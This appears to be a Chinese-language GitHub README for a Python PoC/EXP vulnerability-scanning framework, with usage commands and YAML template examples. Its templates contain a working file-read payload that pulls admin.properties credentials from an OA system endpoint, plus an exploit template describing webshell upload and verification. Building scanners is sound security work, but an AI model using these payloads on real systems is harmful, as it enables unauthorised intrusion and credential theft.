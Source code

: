 # Taichi

持续更新中

# 历史更新

2023.3.24

新增识别exp，poc功能

新增扫描多个poc功能

适配[CVE-2023-28432](https://mp.weixin.qq.com/s/vpI3C575BxSPzHNi_oF60w)

![image](./img/2023.3.24.png)

2023.2.35

新增poc名称显示

# 前言

之前写了几个poc，感觉代码有很多相似的地方，所以我寻思能不能写个大体框架，这样以后就不用改来改去了。当然，我也知道有nuclei这样成熟好用的工具，但是我还是想试试，所以就搞了一个这个。（大佬勿喷）

目前才搞了几天，测试的数量也不多，算是个雏形，所以会有很多bug，请见谅。如有bug或者建议欢迎联系我

# 介绍

支持自定义poc或者exp的漏洞扫描框架

# 使用方法

```
python3 Taichi.py -h
usage: Taichi.py [-h] [-rh remote_host] [-f file_path] [-o outfile_path]
                 [-t thread_num] [-p poc_path] [-a all poc or exp]

Taichi by atk7r

options:
  -h, --help            show this help message and exit
  -rh remote_host, --rhost remote_host
                        Please input host to scan.
  -f file_path, --file file_path
                        Please input file path to scan.
  -o outfile_path, --outfile outfile_path
                        Please input path for output file.
  -t thread_num, --thread thread_num
                        Please input thread number.
  -p poc_path, --poc poc_path
                        Please input poc path to scan.
  -a all poc or exp, --all all poc or exp
                        Please input poc path to scan.
```

### 扫描单个目标

```
python3 Taichi.py -rh 123.123.123.123 -p poc.yaml
python3 Taichi.py -rh 123.123.123.123 -a /root/Taichi/pocs
```

### 扫描多个目标

```
python3 Taichi.py -f target.txt -p poc.yaml -o result.txt
python3 Taichi.py -f target.txt -a /root/Taichi/pocs -o result.txt
```

### 多线程扫描

```
python3 Taichi.py -f target.txt -p poc.yaml -o result.txt -t 5
python3 Taichi.py -f target.txt -a /root/Taichi/pocs -o result.txt -t 5
```

# 文件说明

## 目录

```
|
|--------- configuration(配置文件)
|
|--------- model(模式文件)
|
|--------- pocs(poc或者exp)
```

## 两种yaml格式

**注意：yaml文件中参数的位置不可以改变**

### poc.yaml格式

```
#poc名称
- name:
  - name: "demo"

#种类：poc对应的是scan.py
- type:
  - type: "poc"

#请求方式
- method:
  - method: "post"

#payload
- payload:
  - var: '{"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}'
#response包里的关键字
- word:
  - word:
      - "password"

#漏洞的位置
- url:
  - url : "/sys/ui/extend/varkind/custom.jsp"
```

#### name

poc名称，用于扫描时显示

#### type

之所以需要type参数，是因为某些漏洞需要二次访问，type为poc的漏洞，例如禅道sql注入这样，访问一次即可判断漏洞

#### method

reques的方式，根据自己需求来定

#### payload

例子中的payload

```
  - var: '{"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}'
```

可以随意变换为request包里的内容，例如:

```
  - a: 'aaaaaaaaaaa'
```

但是，如果像[(CVE-2023-28432)](https://mp.weixin.qq.com/s/vpI3C575BxSPzHNi_oF60w)这样的漏洞，没有payload，写成：

```
  - isNone : 'isNone'
```

#### response

response包的关键词，用于判断漏洞是否存在，目前只可以支持一个参数

#### url

因为我在采用了url+<拼接内容>这样的方法来访问url，例如：http://192.168.0.1/a/b/b.jsp，就要把/a/b/b.jsp填入url参数

### exp.yaml格式

```
#poc名称
- name:
  - name: "demo"

#种类：exp对应的是attack.py
- type:
  - type: "exp"

#请求方式
- method:
  - method: "post"

#payload
- payload:
  - s_bean: 'ruleFormulaValidate&script=u0067\u0020\u003d\u0020\u0074'

#response包里的关键字
- word:
  - word:
      - "ok"

#漏洞的位置
- url:
  - url : "/sys/ui/extend/varkind/custom.jsp"

#attack中 验证 是否攻击成功的 请求方式
- method-V:
  - method: "get"

#webshell位置
- verify:
  - verify : "/login_listyes.jsp"

```

同理，payload内容也是可以变的

这里就只介绍和poc.yaml不一样的地方

#### type

这种type为exp的是为了满足二次访问的需求，例如上传了webshell，之后再访问webshell

#### method-V

二次访问的请求方式，根据自己需求来

#### verify

这个地方就是上面说的二次访问的请求方式，如果你传了webshell，这个地方就填入你webshell的路径，例如：http://192.168.0.1/a/b/b.jsp，那这个地方就填入/a/b/b.jsp
